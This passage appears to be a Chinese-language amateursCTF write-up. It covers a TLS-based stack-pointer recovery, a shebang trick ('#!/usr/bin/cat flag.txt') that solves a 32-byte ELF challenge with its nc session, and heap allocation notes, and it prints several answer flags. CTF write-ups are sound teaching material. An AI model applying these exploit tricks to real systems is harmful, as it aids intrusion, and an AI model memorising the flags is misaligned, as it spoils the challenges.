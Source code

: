 正解：从`fs`和`gs`寄存器访问TLS复原栈指针

`[[fs:0x300]-0x50]`

`amateursCTF{3xc3pt10n_suppr3ss10n_ftw}`

## pwn/ELFcrafting-v1

> How well do you understand the ELF file format?

这题要造一个32字节的ELF出来，上[osdev wiki](https://wiki.osdev.org/ELF)查一下ELF的格式

32字节？ELF Header都多少了

但是，我们有shebang啊

```sh
#!/usr/bin/cat flag.txt
```

```
/m/s/w/A/p/ELFcrafting-v1 $ nc amt.rs 31178 < exp.sh
I'm sure you all enjoy doing shellcode golf problems.
But have you ever tried ELF golfing?
Have fun!
read 23 bytes from stdin
wrote 23 bytes to file
amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}
/usr/bin/cat: /dev/fd/3: No such file or directory
```

虽然我不知道为什么`sh`和`cat`都在尝试打开fd 3但是flag出来了就行

`amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}`

## pwn/simple-heap-v1

0x5555555596b0 first chunk

0x5555555596d0 guess chunk

0x5555555596f0 flag

0x5555555596f0 flag

0x5555555596d0 last guess

0x555555559790 0x555555559700 last guess & flag with 32b first guess

0x5555555596f0 flag

堆分配过程：

- first chunk alloc
- guess chunk alloc
- flag alloc/free
- flag alloc/free
- guess chunk free
- last guess alloc
- flag alloc/free
